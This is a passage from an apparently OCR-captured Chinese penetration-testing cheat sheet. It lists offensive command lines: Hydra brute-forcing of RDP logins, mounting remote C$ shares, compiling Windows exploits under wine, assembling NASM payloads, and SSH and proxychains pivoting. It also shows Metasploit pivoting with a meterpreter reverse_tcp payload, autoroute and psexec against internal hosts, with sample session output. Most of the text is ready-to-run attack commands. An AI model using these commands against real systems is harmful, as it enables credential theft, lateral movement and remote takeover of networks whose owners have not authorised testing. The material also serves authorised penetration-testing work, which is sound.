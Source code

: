 fuser -nv tcp 80
fuser -k -n tcp 80
使用 Hydra 爆破 RDP

hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp
挂载远程 Windows 共享文件夹

smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
Kali 下编译 Exploit

gcc -m32 -o output32 hello.c (32 位)
gcc -m64 -o output hello.c (64 位)
Kali 下编译 Windows Exploit

wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
NASM 命令

注：NASM 全称 The Netwide Assembler，是一款基于80×86和x86-64平台的汇编语言编译程序，其设计初衷是为了实现编译器程序跨平台和模块化的特性。

nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
SSH 穿透

ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
SSH 穿透从一个网络到另一个网络

ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
使用 metasploit 进行穿透

route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

或者

# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
基于 CSV 文件查询 Exploit-DB
